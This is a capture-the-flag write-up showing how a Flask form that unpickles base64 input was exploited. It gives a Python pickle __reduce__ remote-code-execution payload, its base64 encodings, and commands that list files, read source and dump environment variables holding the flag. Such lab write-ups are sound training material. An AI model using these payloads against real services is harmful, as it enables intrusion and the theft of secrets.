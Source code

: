 # Write-ups for TCTT2023/PWN/04

## Flag pattern

`CTT23{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}`

## Challenge Files

_No file provided_

## Solution

1. First, let observe the website.

   - Input: `aaaa`

   ![web_result_01](./write-ups/01.png)

   - Input: `aaa`

   ![web_result_02](./write-ups/02.png)

   - Input: `bcsdhbcsdhvfsknv`

   ![web_result_03](./write-ups/03.png)

   - Input: `YQ==`

   ![web_result_04](./write-ups/04.png)

From these error, we know that the input must be `decoded from base64` and `unserialized with pickle`.

2. To craft payload, I wrote a [python script](./write-ups/payload.py)

```python
import pickle
import base64


class RCE:
    def __reduce__(self):
        import subprocess
        return (subprocess.check_output, (['/bin/bash', '-c', 'ls -la'],))


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.b64encode(pickled).decode('ASCII'))
```

And the result it

```
gASVQQAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlCiMCS9iaW4vYmFzaJSMAi1jlIwGbHMgLWxhlGWFlFKULg==
```

After submit to website, we got

```
total 32
drwxr-xr-x 1 root root 4096 Sep 16 15:05 .
drwxr-xr-x 1 root root 4096 Sep 16 07:59 ..
-rw-r--r-- 1 root root  528 Aug  8 05:17 app.py
-rw-r--r-- 1 root root   13 Aug  8 04:57 requirements.txt
drwxr-xr-x 1 root root 4096 Aug  8 04:50 templates
```

3. Read the `app.py` by changing `['/bin/bash', '-c', 'ls -la']` to `['/bin/cat', './app.py']`

```
gASVPQAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlCiMCC9iaW4vY2F0lIwILi9hcHAucHmUZYWUUpQu
```

```
#! /usr/bin/python
from flask import Flask, render_template, request
import base64
import pickle

app = Flask(__name__)
@app.route("/")
def my_form():
    return render_template("home.html")

@app.route("/", methods=["POST"])
def my_form_post():
    try:
        data = base64.urlsafe_b64decode(request.form["text"])
        output = pickle.loads(data)
    except Exception as e:
        output = e
        return render_template("home.html", code=output)

if __name__ == "__main__":
    app.run(host="0.0.0.0",port=1080)
```

There is nothing interesting in this file. So let go out of this directory.

4. changing `['/bin/bash', '-c', 'ls -la']` to `['/bin/bash', '-c', 'ls -la ../']`

```
gASVRQAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlCiMCS9iaW4vYmFzaJSMAi1jlIwKbHMgLWxhIC4uL5RlhZRSlC4=
```

```
total 84
drwxr-xr-x   1 root root 4096 Sep 16 07:59 .
drwxr-xr-x   1 root root 4096 Sep 16 07:59 ..
-rwxr-xr-x   1 root root    0 Sep 16 07:59 .dockerenv
drwxr-xr-x   1 root root 4096 Sep 16 15:05 app
lrwxrwxrwx   1 root root    7 Aug 16 02:02 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Apr 18  2022 boot
drwxr-xr-x   5 root root  360 Sep 16 07:59 dev
drwxr-xr-x   1 root root 4096 Sep 16 12:35 etc
drwxr-xr-x   1 root root 4096 Sep 16 08:26 home
lrwxrwxrwx   1 root root    7 Aug 16 02:02 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Aug 16 02:02 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Aug 16 02:02 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Aug 16 02:02 libx32 -> usr/libx32
drwxr-xr-x   2 root root 4096 Aug 16 02:03 media
drwxr-xr-x   2 root root 4096 Aug 16 02:03 mnt
drwxr-xr-x   2 root root 4096 Aug 16 02:03 opt
dr-xr-xr-x 580 root root    0 Sep 16 07:59 proc
drwx------   1 root root 4096 Sep 16 12:35 root
drwxr-xr-x   1 root root 4096 Sep 16 08:44 run
lrwxrwxrwx   1 root root    8 Aug 16 02:02 sbin -> usr/sbin
drwxr-xr-x   2 root root 4096 Aug 16 02:03 srv
-rwxr-xr-x   1 root root  248 Aug 19 17:33 start.sh
dr-xr-xr-x  13 root root    0 Sep 16 07:59 sys
drwxrwxrwt   1 root root 4096 Sep 16 13:30 tmp
drwxr-xr-x   1 root root 4096 Aug 16 02:03 usr
drwxr-xr-x   1 root root 4096 Aug 16 02:06 var
```

`start.sh` look very interesting. Let read it.

5. changing `['/bin/bash', '-c', 'ls -la']` to `['/bin/cat', '../start.sh']`

```
gASVQAAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlCiMCC9iaW4vY2F0lIwLLi4vc3RhcnQuc2iUZYWUUpQu
```

```
#!/bin/bash
#sed -i "s/\\[\\[RANDOM_SECRET\\]\\]/$RANDOM_SECRET/g" /tmp/flag.txt
#randomname=`date +%s | sha256sum | base64 | head -c 10 ; echo`&& mv /tmp/flag.txt /tmp/flag_$randomname.txt
export flag=$RANDOM_SECRET
python3 app.py
tail -F /dev/null
```

From `export flag=$RANDOM_SECRET`, we know that the flag is in `flag` environment variable.

6. changing `['/bin/bash', '-c', 'ls -la']` to `['/bin/bash', '-c', 'env']`

```
gASVPgAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlCiMCS9iaW4vYmFzaJSMAi1jlIwDZW52lGWFlFKULg==
```

![web_result_05](./write-ups/05.png)

```
HOSTNAME=e404496bc97a
PWD=/app
_=/usr/bin/env
flag=CTT23{Bas364_Rc3}
HOME=/root
WERKZEUG_SERVER_FD=3
TERM=xterm
SHLVL=1
RANDOM_SECRET=CTT23{Bas364_Rc3}
LC_CTYPE=C.UTF-8
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

7. BOOM!, the flag is `CTT23{Bas364_Rc3}`
